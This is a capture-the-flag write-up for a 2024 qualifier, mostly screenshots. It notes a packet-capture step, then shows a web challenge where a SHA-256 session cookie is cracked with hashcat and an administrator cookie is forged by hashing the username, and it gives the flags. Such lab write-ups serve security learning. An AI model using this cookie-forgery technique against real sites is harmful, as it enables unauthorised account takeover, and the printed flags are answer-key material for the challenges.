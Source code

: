 # KubanCTF Qualifier 2024 Write-up

![image](https://github.com/user-attachments/assets/aadb302f-e910-4f33-ac24-ef0ba71a2355)

## Not broken

File -> export object -> HTTP

![image](https://github.com/user-attachments/assets/efd0be5b-9507-4357-ba2e-1f198689b7e1)

Save largest packet and open it

We can see that is request to image

## WEB

### WEB - Примечание

![image](https://github.com/user-attachments/assets/5e8b51ff-ed39-44d6-b7a2-1ec88044fe47)

![image](https://github.com/user-attachments/assets/4a8c3879-3f5e-45e6-b85e-bd19d882ef44)

![image](https://github.com/user-attachments/assets/759a79e2-0319-4c5c-9c88-a9e46828fede)

![image](https://github.com/user-attachments/assets/db1a1837-c470-410b-bce6-651cfc55e770)

![image](https://github.com/user-attachments/assets/d2f501ea-be2e-4a50-944c-f0dc823deba8)

Request

    GET /profile.php HTTP/1.1
    Host: 62.173.147.143:16004
    Accept: */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
    X-Requested-With: XMLHttpRequest
    Referer: http://62.173.147.143:16004/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: ru-RU,ru;q=0.9
    Cookie: Token=ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae
    Connection: close

Our token is `ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae`

    hashcat ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae
    
    hashcat -m 1400 -a 0 'ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae' /home/kali/wordlist/rockyou.txt

![image](https://github.com/user-attachments/assets/03c4eca3-5f3d-4a48-815e-45ff70c44c12)

![image](https://github.com/user-attachments/assets/42c070bf-0377-4030-aee0-bbbcc73bd5ba)

   `cd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae`:`test123`

   ![image](https://github.com/user-attachments/assets/21981efc-cd52-490e-a6f0-e40c0a05a401)

administrator@codeby.games

    echo -n 'administrator' | sha256sum 

![image](https://github.com/user-attachments/assets/62c848cc-3846-424d-981e-387d711d5d1e)

    4194d1706ed1f408d5e02d672777019f4d5385c766a8c6ca8acba3167d36a7b9

![image](https://github.com/user-attachments/assets/61fb9b8b-3909-434f-801b-f04eda3fabdb)

![image](https://github.com/user-attachments/assets/ba360d09-40dc-4633-b1e5-8732834be5ec)

FLAG:

    CSC{sup3r_w34k_co0ki3}

## WEB - What's missing?

![image](https://github.com/user-attachments/assets/8408fc1b-ceb0-4b6d-98b8-e6a56f5107db)

![image](https://github.com/user-attachments/assets/8bacbcba-8ff8-46fe-bf09-47eb96989414)

![image](https://github.com/user-attachments/assets/22bb170f-6bd7-4eb9-9ba4-9edb46924d14)

FLAG:

    CSC{7H3_L1M174710NS_4R3_0NLY_1N_0UR_H34DS}
